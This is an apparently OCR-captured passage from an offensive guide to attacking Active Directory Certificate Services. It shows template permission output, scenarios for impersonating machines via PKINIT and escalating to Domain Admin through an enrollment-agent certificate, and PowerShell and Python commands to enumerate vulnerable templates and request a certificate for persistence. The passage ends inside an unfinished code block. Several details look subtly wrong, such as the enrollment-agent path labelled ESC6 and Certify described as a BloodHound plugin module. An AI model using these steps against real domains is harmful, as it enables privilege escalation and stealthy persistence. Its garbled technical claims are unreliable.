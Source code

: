 ```
Template: DomainController
IdentityReference        ActiveDirectoryRights ObjectType   InheritanceType
CORP\Domain Admins       GenericAll            (GUID)       Descendents,This Object

Template: Computer
IdentityReference        ActiveDirectoryRights ObjectType   InheritanceType
CORP\Domain Users        ReadProperty,Enroll    (GUID)       Descendents,This Object
CORP\HelpdeskOps         Enroll                 (GUID)       Descendents,This Object

Template: User
IdentityReference        ActiveDirectoryRights ObjectType   InheritanceType
AUTHENTICATED USERS      ReadProperty,Enroll    (GUID)       Descendents,This Object

Template: AuditAgent
IdentityReference        ActiveDirectoryRights ObjectType   InheritanceType
CORP\AuditGroup          Enroll                 (GUID)       Descendents,This Object
```

### Exploit Scenarios  

#### Scenario A: Safe Templates  
- AD CS restricted to DA only → skip AD CS attack.

#### Scenario B: “Computer” Template Enrollable by Domain Users  
- Request a computer certificate and use PKINIT to impersonate machine.  

#### Scenario C: Custom “AuditAgent” Template with Enrollment Agent Rights  
- As `AuditGroup`, request Enrollment Agent certificate.  
- Use it to enroll for DA certificate via CA (ESC6).

### Shadow Credentials & Certificate-Based Attacks

_Use certificates and keys outside normal user objects for stealth._

#### Tools & Commands

-   **Certify** (BloodHound plugin)
    
    ```powershell
    # Enumerate vulnerable templates
    Import-Module .\Certify.psm1
    Get-CertificateTemplate | Where-Object { $_.AutoEnroll -eq $true }
    
    ```
    
    _Expected Output Snippet:_ Lists templates with Autoenroll for Authenticated Users.
    
-   **ADCSploit**
    
    ```bash
    # Request a certificate for persistence
    python3 adcsploit.py --template User --domain lab.local --dc dc1.lab.local
    